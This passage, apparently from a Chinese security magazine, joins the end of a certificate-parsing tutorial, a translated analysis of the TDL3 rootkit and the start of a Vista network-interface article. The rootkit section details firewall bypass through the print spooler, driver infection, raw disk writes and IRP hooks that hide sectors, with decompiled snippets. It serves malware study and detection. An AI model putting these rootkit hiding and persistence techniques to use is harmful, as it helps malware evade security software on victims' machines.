case NID_stateOrProvinceName: // 省
    tmp.Format("issuer's ProvinceName:%s\n", msginfo);
    ...
case NID_localityName: // 地区
    tmp.Format("issuer's localityName:%s\n", msginfo);
    ...
case NID_organizationName: // 组织
    tmp.Format("issuer's organizationName:%s\n", msginfo);
    ...
case NID_organizationalUnitName: // 单位
    tmp.Format("issuer's organizationalUnitName:%s\n", msginfo);
    ...
case NID_commonName: // 通用名
    tmp.Format("issuer's commonName:%s\n", msginfo);
    ...
case NID_pkcs9_emailAddress: // Mail
    tmp.Format("issuer's emailAddress:%s\n", msginfo);
    ...
}
// 获取证书主题信息，与前面类似，在此省略
subject = X509_get_subject_name(usrCert);

// 获取证书生效日期
time = X509_get_notBefore(usrCert);
```

```cpp
tmp.Format("Cert.notBefore:%s\n", time->data);
m_list.InsertString(-1, tmp);
...
// 获取证书过期日期
time = X509_get_notAfter(usrCert);
tmp.Format("Cert.notAfter:%s\n", time->data);
...
// 获取证书公钥
pubKey = X509_get_pubkey(usrCert);
pTmp = derpubkey;
// 把证书公钥转为 DER 编码的数据
derpubkeyLen = i2d_PublicKey(pubKey, &pTmp);
printf("PublicKey is:\n");
for(i = 0; i < derpubkeyLen; i++)
{
    CString tmpp;
    tmpp.Format("%02X", derpubkey[i]);
    tmp = tmp + tmpp;
}
m_list.InsertString(-1, tmp);
// 释放结构体内存
X509_free(usrCert);


```

编译以上代码，之后解析证书的效果如图 2 所示。
图 2  解析效果

##### 结束语

通过上述介绍，相信大家对数字证书又有了更进一步的了解。在开发的网络通信软件中需要加入身份认证功能时，可以根据解析出来的证书信息，与自己的访问策略相对比，实现访问控制。

数字证书在信息安全中处于重要地位，随着密码学的发展，数字证书的应用也会越来越广。当然，解析证书只是数字证书操作的一部分，如证书的生成、证书的验证等操作，我会在后续的文章中向大家介绍。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC++

关键词：Rootkit、TDL3、木马
##### TDL3 Rootkit 深入分析

文/Nguyễn Phố S n  译/武云龙 党壮

TDL/TDSS 是一个以效率和灵活而闻名的木马变种。它包含两个部分：内核模式下的 Rootkit 和用户模式下的 DLL，后者保证木马程序的运转，如下载恶意代码、对抗杀毒软件等。而 Rootkit 则扮演注入者的角色，为用户模式下的二进制文件提供保护。如今对此系列木马的研究主要集中在 Rootkit 技术，为的是使其绕过杀毒软件的扫描。

TDL3 是 TDL Rootkit 的第三代，其目的依然是为了隐藏恶意代码的存在，逃过杀毒软件的扫描。这种木马入侵时会使用一些特别的技术来帮助它绕过个人防火墙，并且不被杀毒软件和防毒软件发现，这些技术将会在文中细细道来。

驱动程序，并命名为“tdl”（如图 1 所示）。这个 API 函数发出一个 RPC 调用（Remote Procedure Call，远程过程调用）给 spoolsv.exe 进程（spoolsv.exe 是 Print Spooler 的进程，管理所有本地和网络打印队列及控制所有打印工作）的打印子系统，并使用 spoolsv.exe 进程远程加载打印驱动程序的 DLL 文件。这样 spoolsv.exe 将加载这个 DLL 文件，而 spoolsv.exe 恰恰是被系统和个人防火墙信任的进程，这样，包含恶意代码的 DLL 文件就可以借助 spoolsv.exe 进程做任何事情而不会引起报警了。

利用系统的可信进程远程加载和执行恶意 DLL 是一个不错的方法，但它还有一些局限性。首先，感染程序必须拥有 SeLoadDriverPrivilege（装载和卸载设备驱动程序）权限；然后必须有写文件到打印驱动程序目录的权限。但是，当一个应用程序试图获得 SeLoadDriverPrivilege 权限时，有的防火墙则会报告这是可疑行为。而庆幸的是大多数用户都在用管理员权限登录，所以一般不会遇到以上问题。整个过程如图 2 所示。

###### 木马安装

- 1）木马的安装机制

该木马安装机制的独特之处在于它安装进系统的方式。它采用的不是我们知道的一些传统方法，而是通过实现 0-Day 漏洞执行自己，达到绕过防火墙或杀毒软件的目的。图 1 显示了木马感染程序的一部分代码。
> 图 1  TDL3 实现绕过个人防火墙的代码

首先，感染程序将自己复制到打印驱动程序目录中，并根据系统随机给自己取个名字，然后修改文件属性，将自己转换为一个 PE 格式的 DLL 文件。

在改变属性之后，感染程序则通过调用 AddPrintProcessorA() 函数将这个 DLL 文件注册为一个打印驱动程序。
> 图 2  TDL3 用户模式下绕过个人防火墙机制

回到感染程序，在 DLL 文件被 spoolsv.exe 加载以后，含有恶意代码的 DLL 文件将会安装一个驱动程序，然后就会通过直接调用 NtLoadDriver() 开始内核空间的感染。

- 2）内核模式下感染的第一阶段：解包

现在程序将在内核模式下进行操作。刚才安装的驱动程序将会被 spoolsv.exe 程序加载，这个驱动程序是另一个嵌入内核代码的加载器。从 DriverEntry() 开始，驱动程序分配内核缓冲池来为解压数据准备空间，并采用 aPlib 压缩引擎解包里面真正的 Rootkit 驱动程序。

有一点必须强调，笔者在解包过程中进行了抗静态分析。首先从当前驱动的 IAT（Import Address Table，导入地址表）中 hook 了一个导入的 API 函数，然后调用 API 函数。因为那个 API 函数的地址在 IAT 表中已经被修改，执行此函数将转移到真正的解压缩程序。当分析程序使用静态分析时，它就会忽略这个解压过程。

在下面的例子中，被 hook 的 API 函数是 RtlAppendAsciizToString，如图 3 和图 4 所示。

```asm
kd> dps 0f8b32000
...
f8b3202c 806329d9 nt!RtlAppendAsciizToString
...
```

图 3  TDL3 内核模式下抗静态分析——IAT Hook（挂钩之前）

```asm
kd> dps 0f8b32000
...
f8b3202c 818abf5a nt!...
...
```

图 4  TDL3 内核模式下抗静态分析——IAT Hook（挂钩之后）

最后，加载程序执行 PE 文件映射，跳转到新区，开始内核模式下感染的第二阶段。

- 3）内核模式下感染的第二阶段：感染和存储 Rootkit 代码

其实感染程序要做的各种事情就是为了使 Rootkit 代码在系统重新启动后还会存在，所以 TDL3 Rootkit 代码中最重要的部分是：感染端口驱动程序；重启策略；使用 SCSI 请求直接读写硬盘。

- ① 感染驱动

感染程序首先查询设备对象，特别是硬盘的 0 扇区（“\systemroot” 安装的位置）。这将方便 Rootkit 通过设备对象检索最近使用的端口设备驱动和驱动二进制文件名。例如，在我们的分析中，名字为“atapi”（路径为 \\systemroot\\system32\\drivers\\atapi.sys）的驱动程序将要被感染。

这个感染程序的算法并不复杂，它通过使用 824 字节大小的数据重写驱动程序的“.rsrc”节数据，而不是像很多程序那样劫持整个程序。所以被感染文件的大小在感染发生之前和发生之后不会改变。被覆盖的数据则存储在硬盘的特定区段上，感染程序同样修改了被感染文件的入口地址。

- ② Rootkit 重启策略

早期的 TDL/TDSS 变种通过创建自动启动服务来保持恶意代码能够正常存在于文件中。但是，TDL3 不再使用文件系统存储自身文件，而是在硬盘区段上直接进行读写。主要的 Rootkit 代码存储在硬盘最末的区段上，其区段号由公式计算出来：

total_number_of_disk - (number_of_Rootkit_sector + number_of_overwritten_data_sector)。

下次系统重启时，存在于驱动程序中的 824 字节代码被执行，在等待文件系统加载完毕后（通过将自身注册为一个文件系统例程），然后加载并运行存储在硬盘最末区段上的 Rootkit。

图 5 显示了 TDL3 是如何安装的。真正的 Rootkit 代码和覆盖 atapi.sys 的数据被存储在一个以 0x817e1000 开始的缓冲区中。写入的数据大小为 0x5e00 字节。下一步，将这些缓冲区中的数据写入到以 0x3fffc0 开始的连续区段中。注意，在此 Rootkit 的存储标记为“TDL3”，824 字节代码将会根据这个标记读回这些区段。

```asm
mov eax, 308h
mov eax, [eax-210000h]
...
cmp dword ptr [eax], '3LDT'
jnz short loc_26607


```

图 5  824 字节加载程序检查标记“TDL3”

- ③ Rootkit 直接读写硬盘

此感染程序另外一个特点就是它直接通过被感染...的端口驱动程序读写硬盘来进行操作。

正如在图6看到的那样，为了将 Rootkit 代码和原始被覆盖的 atapi.sys 数据写入硬盘的末尾区段，内核模式的感染程序调用一个特殊的例程建立一个 IRP，其中 `IO_STACK_LOCATION` 堆栈包含 `SRB_FUNCTION_EXECUTE_SCSI` 和 `SCSI_REQUEST_BLOCK`，`SCSI_REQUEST_BLOCK` 包含一些写入缓冲区的信息，如缓冲区长度、写入的区段、分发例程（IdePortDispatch）和目标设备对象。图7展示了 TDL3 代码如何在发送请求给被感染端口驱动程序的分发例程之前设置 `SCSI_REQUEST_BLOCK`。

##### TDL3 Rootkit

- 1）文件内容的伪造

TDL/TDSS Rootkit 最突出的特点是它在扫描程序下隐藏 Rootkit 文件的能力。TDL3 Rootkit 不是将整个文件隐藏，而是假冒自己是其他被感染的文件或其他受保护区的区段。
```c
srb.SrbFlags = data_in_out_flag | 0x20;
srb.SenseInfoBuffer = &sense_info_buffer;
srb.Cdb[0] = SCSIOP_WRITE;
srb.DataBuffer = (PVOID)buffer;
srb.Cdb[2] = sector_offset >> (char)0x18;
srb.Cdb[3] = (sector_offset >> (char)0x10;
srb.Cdb[4] = 0x00;
srb.Function = 1;
srb.QueueAction = 0x20;
srb.CdbLength = 0x0a;
srb.SenseInfoBufferLength = 0x12u;
srb.DataTransferLength = data_len;
srb.TimeoutValue = 500;
...


```

图7 TDL3 设置 `SCSI_REQUEST_BLOCK`

这样做的效果很好，目前所有更新过的杀毒软件和防毒软件都无法在它活动的时候查出来。即使能，也只是很小的一方面。所有读取被感染文件内容的尝试都会返回正常和原始的字节。那么，TDL3 是如何有效地保护自己的呢？

为了保护被感染的端口驱动程序，Rootkit 程序挂钩了端口驱动程序对象并修改了所有分发例程到 Rootkit 程序，如图8所示。
Rootkit hook 句柄将会过滤每个 IRP，`IRP_MJ_SCSI` 类型的包通过端口驱动程序传送，拥有 `SCSI_REQUEST_BLOCK` 结构的 SCSI 请求将设置 `SRB_FUNCTION_EXECUTE_SCSI` 和 `SCSI_REQUEST_BLOCK` 标志（包含 `SRB_FLAGS_DATA_IN` 和 `SRB_FLAGS_DATA_OUT`）。

如果 `SCSI_REQUEST_BLOCK` 标志和 `SRB_FLAGS_DATA_IN` 结合，那么 hook 句柄将通过在转发原来的 IRP 之前设置完成例程来冒充文件内容。这个完成例程将在返回的缓冲区中填入脏数据，代码如下：

```c
void tdl3_hook_io_compl_routine(
    IN PDEVICE_OBJECT target_device,
    IN PIRP irp,
    IN PVOID context)
{
    PPROTECTED_SECTOR protected_sector_info =
        (PPROTECTED_SECTOR)((uint32_t*)(0xffdf0308)+0x114);

    read_buffer = MmGetSystemAddressForMdlSafe(
        irp->mdl, NormalPagePriority);
    start_sector = context->read_write_sector;

    if (start_sector + read_len / sector_size < total_disk_sector) {
        if (number_of_protected_sectors) {
            i = 0;
            num_sector = 0;
            do {
                // 复制原始数据到目标缓冲区
                if (start_sector + read_len / sector_size > protected_sector_info[i]->sector_number) {
                    dest = read_buffer + protected_sector_info[i]->offset -
                           sector_size * (protected_sector_info[i]->sector_number - start_sector);
                    memcpy(dest,
                           protected_sector_info[i]->original_data,
                           protected_sector_info[i]->data_len);
                }
                num_sector++;
            } while (num_sector < number_of_protected_sectors);
        }
    }
}
```

被保护的区段数组是 TDL3 存储区段修改信息的地方，这些信息包括区段号、被复制的数据长度、存储原始数据的缓冲区偏移地址等。它的结构在以下代码中定义。在我们的例子中，被保护区段中存储的是被重写的 824 字节的 Rootkit 加载程序和 atapi.sys 的其他区域。

```c
typedef struct _PROTECTED_SECTOR
{
    uint32_t sector_number; //4
    uint32_t offset; //8
    uint32_t data_len; //c
    uint8_t *original_data; //10
} PROTECTED_SECTOR, *PPROTECTED_SECTOR;
```

正如上面所展示的，如果一个应用程序发出一个 TDL3 感兴趣的 SCSI 请求，这个完成例程就会通过被保护区段循环，查询这个请求的开始区段和区段号是不是其中之一。如果是，那么 Rootkit 复制原始数据覆盖输入缓冲区，返回应用程序完全虚假的数据。

如果试图检索硬盘的最末区段（Rootkit 代码存储的地方），Rootkit 将会将请求缓冲区清零。以下示例代码是 TDL3 用于阻塞读取硬盘最末区段的。

```c
......
}
++;
num_sector++;
}
while (num_sector < number_of_protected_sectors);
}
...
else
{
    if (start_sector > last_sector_store_Rootkit_codes)
    {
        // 使缓冲区清零
    }
}
......


```

TDL3 同样修改了内存中被感染文件的镜像，使得任何内存检测尝试都将因硬盘镜像和加载镜像不匹配而失败。

因为 hook 发生在更低层的位置——端口驱动程序，因此所有杀毒或防护软件依靠的都是伪造数据，所以将返回错误结果。我相信没有哪个安全软件可以在不改变读写机制的情况下检测到 Rootkit。

- 2）反 hook 检测

当然，Rootkit hook 不是什么新鲜的话题了。如今也有很多工具可以发现 Rootkit，如 GMER、UG North’s RkU 等。但是没有哪个可以对 TDL3 给出正确结果。为什么呢？经过几次调试证明，有一种方法可以对抗以上所有工具的检测。Rootkit 只是在被感染驱动程序的镜像空间里简单地创建了 11 个字节存根。正如图9和图10所示，这 11 个字节的存根将转向真正 Rootkit IRP hook 句柄（保存在内核缓冲池中，以 0x817e4e31 开始）的执行流程。

由于检查工具只是检查分发例程地址是否落在驱动程序镜像地址区域，而不是分析句柄的目的地址，因而它们肯定会中 Rootkit 的陷阱。

- 3）用户模式下的注入

尽管花了很多功夫，但是 Rootkit 本身仅仅是一个注入部分，感染用户模式进程才是主要任务。
图9 在 TDL hook 之前的 atapi.sys 的分发例程表
图10 在 hook 之后的 atapi.sys 的分发例程表

为了达到这一目的，Rootkit 首先注册了一个加载镜像通知例程，使得当有某个线程加载 kernel32.dll 时，这个例程将会产生一个以 `LoadLibraryExA` 开始的 APC 来控制线程执行木马的 DLL（tdlcmd.dll 和 tdlswp.dll）。这是现在 ARK 唯一能够检测到的可疑行为，如图11所示。
图11 TDL3 通过安排 APC 执行进行 DLL 注入

- 4）TDL3 使用 RC4 加密文件系统

只要 TDL3 内核模式的 Rootkit 是活动的，感染程序就会安装 3 个文件到系统中：tdlcmd.dll、tdlswp.dll 和 config.ini。TDL3 以一种特殊的存储模式组织自己，而不是使用传统的文件系统组织形式：实现了 RC4 加密文件系统，默认的 RC4 密钥是“tdl”，并创建一个简单的、存储在硬盘最末区段的扇区表，它的标记为“TDLD”（代表“TDL Data”），如图12所示。在这个表中，TDL 扇区表存储了文件名和相关信息。
所有文件都会被加密，并且存储在硬盘最末区段上，位置在 TDL 扇区表之前。每个文件都会写上标记“TDLF”。但是这些文件并不是连续存储的，而是每个文件之间隔两个区段。TDL3 的存储采用 EFS（Encrypting File System）存储模式，区段内容使用 RC4 加密，并且每个请求的解密过程对读取程序是透明的。图13和图14说明了 TDL3 系统是如何写入 EFS 的。这个快照是 TDL3 感染程序正在将 tdlcmd.dll 通过 API 函数 `WriteFile()` 安装到硬盘时拍摄的。
为了访问存储在 EFS 中的文件，TDL3 构建了一个随机路径 `\Device\Ide\IdePort1\enticxj` 来重定向读写请求到自己的文件系统堆栈中。因此 TDL3 加密的文件通过原始系统 API 函数（如 `CreateFile()`、`WriteFile()`）仍然是有用并且可访问的。当 Rootkit 在系统重启并被加载时，它将重建另外一个和上面类似的随机路径，然后开始使用此随机路径进行用户模式下的 DLL 注入。

##### 其他说明

首先看一下 TDL3 Rootkit 代码是如何从另外一个编译的二进制文件中自动产生的。它使用简单的混淆字符串生成器，如图15所示。几乎所有恶意软件都使用字符串作为开始标记，但是列出 Rootkit 中出现的所有可疑字符串难度非常大，一般分析方法无法进行这样的分析。而且，Rootkit 可以通过调用 ntoskrnl.exe 的 API 函数阻碍静态分析：通过传统 API 函数名的哈希值解析这些例程地址，然后每当调用其中之一时进行必要的参数传递，如图16所示。

```asm
mov [ebp+var_28], 2Ah ; '*'
mov [ebp+var_26], 5Ch ; '\\'
mov [ebp+var_24], 4Bh ; 'K'
...
```

图15 混淆字符串生成器

```asm
loc_4673:
  mov edi, [ebp+var_4]
  push 9FD9A591Bh ; ZwClose
  call get_ntos_base
  ...
loc_4689:
  push 55F178F2h ; KeSetEvent
  call get_ntos_base
  ...
```

图16 调用 ntoskrnl.exe 的出口

事实上，Rootkit 的二进制文件很难在 IDA 工具中被分析。为了便于理解和消除上述障碍，我做了两个 Python 帮助脚本，通过使用哈希值来识别嵌入的字符串和完成例程的名字。第一个脚本要求使用 pefile Python 模块，代码如下：

##### 脚本一

```python
# 10/15/2009
# build string from TDL3 Rootkit binaries
```

```python
# thug4lif3 at g00gles.mail or npson at cmeifosec.com
#
data = []
print type(data)
current_head = 0
for seg_ea in Segments():
    for head in Heads(seg_ea, SegEnd(seg_ea)):
        if GetOpType(head, 0) == 4 and GetOpType(head, 1) == 5 and GetMnem(head) == 'mov':
            char = int(GetOpnd(head, 1).replace('h',''), 16)
            if char > 0x19 and char < 0x7F:
                data.append(chr(char))
                if current_head == 0:
                    current_head = head
            else:
                if data:
                    print '%x - %s' % (current_head, ''.join(data))
                    data = []
                    current_head = 0
```

脚本二：

```python
# 10/15/2009
# resolve TDL3 ntoskrnl.exe's names and comment them into IDA disassembly
# thug4lif3 at g00gles.mail or npson at cmeifosec.com

import pefile, sys, string
"""
api_string = a1;
for (result = 0; *api_string; ++api_string)
    result = *(WORD *)api_string + 0x1003F * result;
return result;
"""

ntos_api = dict()
def c_mul(a, b):
    return eval(hex((long(a) * b) & 0xFFFFFFFFL)[:-1])
def calc_hash(api_name):
    value = 0
    for i in range(len(api_name)-1):
        value = ord(api_name[i+1]) * 0x100 + ord(api_name[i]) + c_mul(value, 0x1003F)
    value = ord(api_name[len(api_name)-1]) + c_mul(value, 0x1003F)
    return value

pe = pefile.PE('C:\\WINDOWS\\system32\\ntoskrnl.exe')
for exp in pe.DIRECTORY_ENTRY_EXPORT.symbols:
    ntos_api[calc_hash(exp.name)] = exp.name

for seg_ea in Segments():
    for head in Heads(seg_ea, SegEnd(seg_ea)):
        if GetOpType(head, 0) == 5 and GetMnem(head) == 'push' and len(GetOpnd(head, 0)) > 4:
            hash_val = int(GetOpnd(head, 0).replace('h',''), 16)
            api_name = ntos_api.get(hash_val, 0)
            if api_name != 0:
                print '%x - hash %x - api %s' % (head, hash_val, api_name)
                MakeComm(head, api_name)


```

两个脚本运行后可以对静态分析产生非常有用的信息，如图17和图18所示。
图17 TDL3 中的模糊字符串
图18 使用 TDL3 作用后的 ntoskrnl.exe 的出口

##### TDL3 的检测

尽管使用了很多伪装技术，但是 Rootkit 仍会在系统中留下一些痕迹。因为 TDL3 运行机制的原因，这些痕迹不能被清除，所以可以利用这些痕迹检测它的存在。我正在编写一个在用户模式下检测 TDL3 的工具，但是目前还不稳定。

无论如何，在技术上，当我们的程序从内核模式下绕过保护程序后会怎样呢？Rootkit 会 hook 端口分发函数表。因此，手动获得端口分发例程和不依靠驱动类传输 SCSI 请求，目的是避免区段内容被改写。或者我们可以设计自己的 IDE/SCSI 端口驱动程序。以上两种方法花了开发者很多时间和精力，但是这些方法不是硬件独立的。

##### 结论

TDL3 是我到目前为止分析的最先进的 TDL Rootkit。它运行在 Windows 存储系统的底层，并且依靠很多没有被证实的概念，如端口驱动分发例程和其他内核模式对象。TDL3 是专业团队通过实践开发出来的，开发 TDL3 的团队也在研究使用更低层和复杂的技术抵抗恶意代码扫描。“Low, low and lower!”（向着更底层前进！）是 TDL3 开发团队的座右铭，同时也是如今 Rootkit 的发展方向。

- 前置知识：VC++
- 关键词：网络接口、协议、Windows Vista

##### Windows Vista/2008 网络编程接口的应用及编程
文/MaD 译/武云龙 党壮

Windows Vista 的发布为网络子系统带来了许多新功能，但微软对 TDI（传输驱动程序接口）的限制，使得只有一些传统的驱动可以使用它。NDIS（网络驱动程序接口规范）已经发展到了更高的版本，它具有更灵活和强大的 API 接口，这就是微软一直在标榜的接口可扩展性。但是，并非所有事情都像微软想象的那样顺利，安全软件厂商更愿意使用一些具有不良记录或不稳定的方法实现 hook 的安装。

在这篇文章中，我们将介绍有关 Windows Vista 新特征——网络编程接口，以及在网络子系统中产生的新特征，如 Winsock 内核。本文的主要目的是介绍防火墙供应商如何在 Windows Vista 环境下开发他们的产品。

值得注意的是，Windows Vista 和 Windows 2008 的网络子系统十分相像，所以同样规则和技术可以在这两个不同的操作系统上运行，而不用关心操作系统运行在哪种架构之下，如 X86 和 X64 版本的系统可以同样对待。

在驱动程序中，下面我们具体了解其中的一些。我们可以调用 NmrRegisterProvider() 函数将自己注册为 NPI 提供者，或调用 NmrDeregisterProvider() 函数来注销以前的注册。

```c
NTSTATUS
NmrRegisterProvider(
    IN PNPI_PROVIDER_CHARACTERISTICS ProviderCharacteristics,
    IN PVOID ProviderContext,
    OUT PHANDLE NmrProviderHandle
);

NTSTATUS
NmrDeregisterProvider(
    IN HANDLE NmrProviderHandle
);

typedef struct _NPI_PROVIDER_CHARACTERISTICS {
    USHORT Version;
    USHORT Length;
    PNPI_PROVIDER_ATTACH_CLIENT_FN ProviderAttachClient;
    PNPI_PROVIDER_DETACH_CLIENT_FN ProviderDetachClient;
    PNPI_PROVIDER_CLEANUP_BINDING_CONTEXT_FN ProviderCleanupBindingContext;
    NPI_REGISTRATION_INSTANCE ProviderRegistrationInstance;
} NPI_PROVIDER_CHARACTERISTICS, *PNPI_PROVIDER_CHARACTERISTICS;
```

##### NPI 简介

网络编程接口（NPI）是 Windows Vista 的最新功能之一。NPI 驻留在内核模式，并提供两种网络模块之间的转换：NPI 提供者和 NPI 客户端。这种技术替代了 TDI。在 NT 式系统中，TDI 是协议的发出者和接收者之间的通用性通信接口。TDI 还被用于保护技术，如 Windows 2000/2003，我们可能听说过依附到 tcpip.sys 的 MajorTableHook 的防火墙技术。

而过去软件使用 TDI 的 hook 只作为一般性保护。这些代码十分复杂，而且接口过时，此时就需要一些新的、更加强大的 API 接口取代它。NPI 应运而生，而 Windows Vista 仍然保留 TDI，因为它在某些方面仍然有用。客户端通过注册得到了一系列的建立连接的句柄。NPI 提供了网络模块注册的 NmrXxx() 函数，我们可以使用这些函数注册自己的 NPI 提供者或 NPI 客户端。这些函数被放置在 netio.sys 驱动程序中。

以上代码的回调指针必须由对事件作出反应的驱动程序填写。一些回调函数必须填写，如 ProviderAttachClient()（客户端附加通知）、ProviderDetachClient()（客户端分离通知）。当一些 NPI 客户端想要附加在相应的提供者下并使用提供者提供的函数时，这些回调函数就会被 NMR 调用。

NPI 另一个方面是实现 NPI 客户端的注册。我们可以使用 NmrRegisterClient() 注册驱动作为 NPI 的客户端，使用 NmrDeregisterClient() 取消注册。

```c
NTSTATUS
NmrRegisterClient(
  IN PNPI_CLIENT_CHARACTERISTICS ClientCharacteristics,
  IN PVOID ClientContext,
  OUT PHANDLE NmrClientHandle
);

NTSTATUS
NmrDeregisterClient(
  IN HANDLE NmrClientHandle
);
```

NPI_CLIENT_CHARACTERISTICS 也不例外。

```c
typedef struct _NPI_CLIENT_CHARACTERISTICS {
  USHORT Version;
  USHORT Length;
  PNPI_CLIENT_ATTACH_PROVIDER_FN ClientAttachProvider;
  PNPI_CLIENT_DETACH_PROVIDER_FN ClientDetachProvider;
  PNPI_CLIENT_CLEANUP_BINDING_CONTEXT_FN ClientCleanupBindingContext;
  NPI_REGISTRATION_INSTANCE ClientRegistrationInstance;
} NPI_CLIENT_CHARACTERISTICS, *PNPI_CLIENT_CHARACTERISTICS;
```

ClientRegistrationInstance 定义了一个非常重要的结构，描述了提供者的驱动程序应该连接到哪里。

```c
typedef struct _NPI_REGISTRATION_INSTANCE {
  USHORT Version;
  USHORT Size;
  PNPIID NpiId;
  PNPI_MODULEID ModuleId;
  ULONG Number;
  CONST VOID *NpiSpecificCharacteristics;
} NPI_REGISTRATION_INSTANCE, *PNPI_REGISTRATION_INSTANCE;
```

通过使用这种在 ClientAttachProvider() 的上下文结构域，我们可以确定我们要连接的提供者的子模块。ModuleId 和 NpiId 域是这一结构中最重要的域，它们是由结构 NPI_MODULEID 和 NPIID 定义的，分别如下：

```c
typedef struct {
  unsigned long Data1;
  unsigned short Data2;
  unsigned short Data3;
  byte Data4[8];
} GUID;

typedef GUID NPIID, *PNPIID;

typedef struct _NPI_MODULEID {
  USHORT Length;
  NPI_MODULEID_TYPE Type;
  union {
    GUID Guid;
    IF_LUID IfLuid;
  };
} NPI_MODULEID, *PNPI_MODULEID;
```

这样，我们可以完全地确定提供者。这是客户端与提供者连接事件的关键。GUID 没有被描述，但是可以得到。

##### WSK

正如我们已经知道的，afd.sys 是 Windows 网络子系统的一部分，它建立在 tcpip.sys（Windows TCP/IP 协议栈）和用户模式的 Winsock 提供者之间。afd.sys 将自己注册为一个 NPI 提供者并提供 WSK（Winsock Kernel）。TDI 的代码使用起来很困难，并且接口复杂，但是 WSK 具有非常简单的接口，可以让我们的驱动程序更好地与网络进行通信。WSK 为我们提供了 WskXxx() 函数集，如 WskSocket()、WskConnect()、WskReceive()、WskSend() 和 WskCloseSocket()，它们和 socket()、connect()、recv()、send()、close() 很相似。但是 WSK 与用户模式下的 Socket 有一点不同，WSK 提供的 Socket 是非阻塞的，所以我们必须要能够处理它们，使之阻塞或直接使用非阻塞套接字。基本 WSK 功能函数是从 netio.sys 导出的，但是提供 WskXxx() 回调函数集的驱动程序是 afd.sys。现在我们看到的任何系统驱动程序都可以作为 WSK 提供者的身份进行注册，问题是我们不知道 tcpip.sys 接口内部提供的 TCP/IP 协议栈功能。

首先，我们必须调用 WskRegister() 来为 WSK 应用程序注册驱动程序，这个功能可在 WDK 中查到。

```c
static WSK_REGISTRATION g_WskRegistration;
static WSK_CLIENT_DISPATCH g_WskDispatch = {
  MAKE_WSK_VERSION(1,0), 0, NULL
};

WSK_CLIENT_NPI WskClient = {0};
NTSTATUS Status = STATUS_UNSUCCESSFUL;
WskClient.ClientContext = NULL;
WskClient.Dispatch = &g_WskDispatch;
Status = WskRegister(&WskClient, &g_WskRegistration);
if (!NT_SUCCESS(Status)) {
  DbgPrint("DriverEntry(): WskRegister() failed with status 0x%08X\n", Status);
  return Status;
}
```

WskRegister() 函数通过 “NpiId = NPI_WSK_INTERFACE_ID” 和 “ModuleId = WSKLIB_WSK_CLIENT_MODULEID” 调用 NmrRegisterClient() 函数。注册成功后，我们必须调用 WskCaptureProviderNPI() 函数等待传输驱动程序被加载。在一些情况下，我们可以在 afd.sys 前进行加载，比如可以在启动模式初期运行或在安全模式启动系统，此时 afd.sys 将不会被加载。

```c
Status = WskCaptureProviderNPI(&g_WskRegistration,
  WSK_CAPTURE_WAIT_TIMEOUT_MSEC, &g_WskProvider);
if (NT_SUCCESS(Status)) {
  ...
}
```

```c
DbgPrint("DriverEntry(): WskCaptureProviderNPI() failed with status 0x%08X\n", Status);
WskDeregister(&g_WskRegistration);
return Status;
}
```

WskCaptureProviderNPI() 只是等待 ClientAttachProvider 的调用。当 afd.sys 被 ProviderAttachClient() 调用时，它将返回一个调度表里的指针和句柄。在 g_WskProvider.Dispatch 里，我们会得到回调函数的指针，而且整个实体可以由 WSK_PROVIDER_DISPATCH 结构定义：

```c
typedef struct _WSK_PROVIDER_DISPATCH {
  USHORT Version;
  USHORT Reserved;
  PFN_WSK_SOCKET WskSocket;
  PFN_WSK_SOCKET_CONNECT WskSocketConnect;
  PFN_WSK_CONTROL_CLIENT WskControlClient;
} WSK_PROVIDER_DISPATCH, *PWSK_PROVIDER_DISPATCH;
```

每个 WSK 客户端希望建立一个连接时，会使用此表与 afd.sys 的服务进行通信。每次 ProviderAttachClient() 调用时，afd.sys 返回一个指向结构的指针，它被存放在 afd.sys 的镜像中。因此，本表中的函数句柄可以被防火墙或一些恶意软件 hook，从而嗅探每个 WSK 调用。我们在 afd.sys 下进行讨论，提供者注册过程发生在 AfdWskStartProviderModule() 函数中，此时 afd.sys 调用 NmrRegisterProvider() 函数与 Provider Characteristics 指向 AfdWskProviderNotify 结构：

```c
NPIID NPI_WSK_INTERFACE_ID = {
  {0x2227E803,0x8D8B,0x11D4,{0xAB,0xAD,0x00,0x90,0x27,0x73,0x9B,0x09}}
};

NPI_MODULEID NPI_MS_WSK_MODULEID = {
  sizeof(NPI_MODULEID),
  MIT_GUID,
  {0xEB004A0D,0x9B1A,0x11D4,{0x91,0x23,0x00,0x50,0x04,0x77,0x59,0xBC}}
};

NPI_PROVIDER_CHARACTERISTICS AfdWskProviderNotify = {
  0,
  sizeof(NPI_PROVIDER_CHARACTERISTICS),
  AfdWskNotifyAttachClient,
  AfdWskNotifyDetachClient,
  AfdWskNotifyCleanupClientContext,
  0, sizeof(NPI_REGISTRATION_INSTANCE), &NPI_WSK_INTERFACE_ID,
  &NPI_MS_WSK_MODULEID, 0, &AfdWskProviderCharacter
};
```

这种结构被放置在 .rdata 节中，默认禁止写操作。我们必须记得什么时候我们将要在这里进行 hook。因此，当应用程序调用 WskRegister() 函数时，AfdWskNotifyAttachClient() 将被调用。最后，AfdWskNotifyAttachClient() 返回指向调度表 g_WskProvider.Dispatch 的指针。它实际指向内部结构 WskProAPIProviderDispatch（存在于 rdata 中）：

```c
WSK_PROVIDER_DISPATCH WskProAPIProviderDispatch = {
  MAKE_WSK_VERSION(1,0),
  WskProAPISocket,
  WskProAPISocketConnect,
  AfdWskControlClient
};
```

如果我们有一个指向 WskProAPIProviderDispatch 的指针，可以 hook 三个函数：WskSocket()、WskSocketConnect() 和 WskControlClient()。依靠参数传递，将参数传递给 WskSocket() 或 WskSocketConnect() 回调函数（WSK_FLAG_DATAGRAM_SOCKET / WSK_FLAG_CONNECTION_SOCKET / WSK_FLAG_LISTEN_SOCKET），我们将获得新的不同的调度表，它描述了对应的 Socket。下面展示其中的几个：

```c
WSK_PROVIDER_DATAGRAM_DISPATCH for datagram sockets (UDP):
WSK_PROVIDER_DATAGRAM_DISPATCH WskProAPIDatagramSocketDispatch = {
  WskProAPIControlSocket,
  WskProAPICloseSocket,
  WskProAPIBind,
  WskProAPICloseSocket,
  WskProAPIReceiveFrom,
  WskProAPIRelease,
  WskProAPIGetLocalAddress
};

WSK_PROVIDER_CONNECTION_DISPATCH for stream sockets (TCP):
WSK_PROVIDER_CONNECTION_DISPATCH WskProAPIConnectionSocketDispatch = {
  WskProAPIControlSocket,
  WskProAPICloseSocket,
  WskProAPIBind,
  WskProAPIConnect,
  WskProAPIGetLocalAddress,
  WskProAPIGetRemoteAddress,
  WskProAPISend,
  WskProAPIReceive,
